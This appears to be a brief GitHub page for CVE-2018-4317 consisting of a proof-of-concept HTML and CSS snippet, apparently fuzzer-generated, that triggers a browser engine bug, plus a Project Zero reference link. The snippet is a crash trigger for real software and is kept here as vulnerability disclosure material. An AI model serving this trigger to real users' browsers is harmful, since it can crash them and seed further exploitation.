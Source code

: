 # CVE-2018-4317

## PoC

```html
<style>
#htmlvar00005, noframes, * { diplay: inline; padding-top: 0vw; -webkit-column-count: 41; transition-delay: }
body::first-letter { box-flex-group: -webkit-background-size: contain; -webkit-opacity: 0.716727864979; }
#htmlvar00001, .class1 { 1vmax; display: contents; left: transform-style: inherit; -webkit-text-orientation: sideways; end }
</style>
<span class="class1" defer="defer">IYnxA?LQYP}</span>
```

## Reference

- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1595)
